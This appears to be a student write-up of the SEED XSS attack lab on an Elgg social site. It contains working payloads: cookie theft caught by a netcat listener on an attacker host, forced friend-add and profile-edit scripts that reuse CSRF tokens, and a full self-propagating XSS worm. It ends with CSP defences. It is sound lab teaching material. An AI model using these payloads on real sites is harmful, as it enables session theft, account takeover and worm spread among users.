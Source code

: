 # Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

done :)

## Task 2: Posting a Malicious Message to Display Cookies

Upon visiting Samy's profile, an alert window with the user's `Elgg` cookie appears.

## Task 3: Stealing Cookies from the Victim's Machine

Output of `nc -lknv 5555` upon loading Samy's profile:

```
$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.15 43804
GET /?c=Elgg%3D3cdfjasb3s6eqpg4f5kmhh6unh HTTP/1.1
Host: 10.9.0.1:5555
...
Referer: http://www.seed-server.com/profile/samy
```

The client browser continues to display a loading status until the `nc` process is stopped, which might make the victim suspicious.

## Task 4: Becoming the Victim's Friend

HTTP GET request sent when Alice adds Boby as a friend:

```
http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1747961979,1747961979&__elgg_token=MXIraps9k30e6MzW85Oq0w,MXIraps9k30e6MzW85Oq0w
```

JavaScript code to automatically add Samy as a friend:

```html
<script type="text/javascript">
window.onload = function () {
    var Ajax = null;

    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

When Alice loads Samy's profile, nothing appears amiss the first time; however, she has already added Samy as a friend, and she can see this once she reloads the page.

The lines `var ts = ...` and `var token = ...` retrieve the timestamp and token fields that Elgg embeds in each page to be used as countermeasures against CSRF attacks. Actions such as adding friends require these fields to be present in the `GET` or `POST` request as evidence that it was not a cross-site request.

If we cannot switch to the Text mode of the "About Me" field, then the attack will no longer be successful, since the Editor mode escapes special characters in its contents; for example, `<script>` is turned into `&lt;script&gt;`. This means that Samy can no longer inject HTML tags or JS scripts into the "About Me" field.

## Task 5: Modifying the Victim's Profile

The HTTP POST request to modify a user's profile is directed to `http://www.seed-server.com/action/profile/edit`. The `description` parameter specifies the contents of the "About Me" field; we also need to supply the parameter `accesslevel[description]=2` to make sure that it is publicly visible.

JavaScript code to modify the victim's profile:

```html
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    //Construct the content of your url.
    var content = "description=Samy is my hero&accesslevel[description]=2" + ts + token + userName + guid;
    var samyGuid = 59;
    var sendurl = "http://www.seed-server.com/action/profile/edit";

    if (elgg.session.user.guid != samyGuid)
    {
        //Create and send Ajax request to modify profile
        var Ajax = null;
        Ajax = new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader(
            "Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

Without the check of user ID against Samy's ID, Samy will overwrite his own "About Me" when returning to his profile page after editing it. Since we have not yet made the worm self-propagating, this immediately neutralises the attack. The overwrite happens as soon as he returns to his profile page, although it will only be visible once he reloads it once more.

## Task 6: Writing a Self-propagating XSS Worm

JavaScript code:

```html
<script id="worm" type="text/javascript">
window.onload = function(){
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script><p>Samy is the One Hero</p>";

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var content = "description=" + wormCode + "&accesslevel[description]=2" + ts + token + userName + guid;

    var friendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    var editurl = "http://www.seed-server.com/action/profile/edit";

    var samyGuid = 59;
    if (elgg.session.user.guid != samyGuid)
    {
        var Ajax = null;
        Ajax = new XMLHttpRequest();
        Ajax.open("GET", friendurl, true);
        Ajax.send();

        Ajax = new XMLHttpRequest();
        Ajax.open("POST", editurl, true);
        Ajax.setRequestHeader(
            "Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

Note that the string "`</script>`" has to be split in two in the JavaScript code; otherwise, it is treated as the actual script closing tag, even if it is within a JavaScript string.

## Task 7: Defeating XSS Attacks using CSP

`www.example32a.com`, which has no CSP policy in place, allows all the pieces of JavaScript code to successfully execute, including the one triggered by the button. `www.example32b.com` and `www.example32c.com` both have CSP policies in place, and only code from their specified allowed sources (under `script-src` in the CSP header) is allowed to execute.

In particular, note that CSP by default blocks the inline JavaScript in the `<button>`'s `onclick` attribute as well as in inline `<script>`s; `'self'` is a valid script source referring to the same domain; `'nonce-111-111-111'` is a valid script source allowing scripts with HTML attribute `nonce="111-111-111"`; and wildcards can be used in a script source, as in `*.example70.com`.

Extract of modified Apache configuration to make Areas 5 and 6 display `OK` in `www.example32b.com`:

```conf
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \
             default-src 'self'; \
             script-src *.example60.com *.example70.com \
           "
</VirtualHost>
```

Modified PHP code to make Areas 1, 2, 4, 5, 6 display `OK` in `www.example32c.com`:

```php
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' *.example60.com *.example70.com".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>
```

CSP can help prevent XSS attacks, because it can be used to block execution of inline JavaScript and code from external sources which are not explicitly trusted, which are the two main ways that XSS attacks inject code to run inside a victim's browser.